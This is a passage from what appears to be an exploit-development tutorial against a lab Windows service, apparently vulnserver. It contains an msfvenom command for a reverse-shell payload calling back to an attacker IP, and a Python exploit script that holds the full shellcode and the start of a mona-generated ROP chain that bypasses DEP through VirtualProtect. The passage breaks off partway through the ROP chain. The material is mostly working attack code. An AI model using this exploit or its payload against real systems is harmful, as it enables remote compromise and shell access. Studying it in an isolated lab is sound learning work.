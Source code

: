 or 

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.16.128 LPORT=443 EXITFUNC=thread -b '\x00' -f c`



## Final exploit

Here is the final exploit to pop a reverse shell. I added some memN0ps ;) before and after the shellcode. The ROP chain takes the place of our JMP ESP, we no longer require the JMP ESP

```python
import socket
import struct

#author memN0ps

# Target IP address and port
RHOST = "192.168.16.129"
RPORT = 9999

# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.16.128 LPORT=443 EXITFUNC=thread -b '\x00' -f c
shellcode = ("\xbe\x4a\xef\xc7\xc3\xd9\xc8\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1"
"\x52\x31\x72\x12\x03\x72\x12\x83\xa0\x13\x25\x36\xc8\x04\x28"
"\xb9\x30\xd5\x4d\x33\xd5\xe4\x4d\x27\x9e\x57\x7e\x23\xf2\x5b"
"\xf5\x61\xe6\xe8\x7b\xae\x09\x58\x31\x88\x24\x59\x6a\xe8\x27"
"\xd9\x71\x3d\x87\xe0\xb9\x30\xc6\x25\xa7\xb9\x9a\xfe\xa3\x6c"
"\x0a\x8a\xfe\xac\xa1\xc0\xef\xb4\x56\x90\x0e\x94\xc9\xaa\x48"
"\x36\xe8\x7f\xe1\x7f\xf2\x9c\xcc\x36\x89\x57\xba\xc8\x5b\xa6"
"\x43\x66\xa2\x06\xb6\x76\xe3\xa1\x29\x0d\x1d\xd2\xd4\x16\xda"
"\xa8\x02\x92\xf8\x0b\xc0\x04\x24\xad\x05\xd2\xaf\xa1\xe2\x90"
"\xf7\xa5\xf5\x75\x8c\xd2\x7e\x78\x42\x53\xc4\x5f\x46\x3f\x9e"
"\xfe\xdf\xe5\x71\xfe\x3f\x46\x2d\x5a\x34\x6b\x3a\xd7\x17\xe4"
"\x8f\xda\xa7\xf4\x87\x6d\xd4\xc6\x08\xc6\x72\x6b\xc0\xc0\x85"
"\x8c\xfb\xb5\x19\x73\x04\xc6\x30\xb0\x50\x96\x2a\x11\xd9\x7d"
"\xaa\x9e\x0c\xd1\xfa\x30\xff\x92\xaa\xf0\xaf\x7a\xa0\xfe\x90"
"\x9b\xcb\xd4\xb8\x36\x36\xbf\x06\x6e\x28\xbf\xef\x6d\x48\xbe"
"\x54\xf8\xae\xaa\xba\xad\x79\x43\x22\xf4\xf1\xf2\xab\x22\x7c"
"\x34\x27\xc1\x81\xfb\xc0\xac\x91\x6c\x21\xfb\xcb\x3b\x3e\xd1"
"\x63\xa7\xad\xbe\x73\xae\xcd\x68\x24\xe7\x20\x61\xa0\x15\x1a"
"\xdb\xd6\xe7\xfa\x24\x52\x3c\x3f\xaa\x5b\xb1\x7b\x88\x4b\x0f"
"\x83\x94\x3f\xdf\xd2\x42\xe9\x99\x8c\x24\x43\x70\x62\xef\x03"
"\x05\x48\x30\x55\x0a\x85\xc6\xb9\xbb\x70\x9f\xc6\x74\x15\x17"
"\xbf\x68\x85\xd8\x6a\x29\xa5\x3a\xbe\x44\x4e\xe3\x2b\xe5\x13"
"\x14\x86\x2a\x2a\x97\x22\xd3\xc9\x87\x47\xd6\x96\x0f\xb4\xaa"
"\x87\xe5\xba\x19\xa7\x2f")


def create_rop_chain():
        # rop chain generated with mona.py - www.corelan.be
        rop_gadgets = [
        #[---INFO:gadgets_to_set_esi:---]                                                                                                                                                                                                                                                                                  
        0x76a172f0,  # POP ECX # RETN [msvcrt.dll] ** REBASED ** ASLR                                                                                                                                                                                                                                                      
        0x6250609c,  # ptr to &VirtualProtect() [IAT essfunc.dll]                                                                                                                                                                                                                                                          
```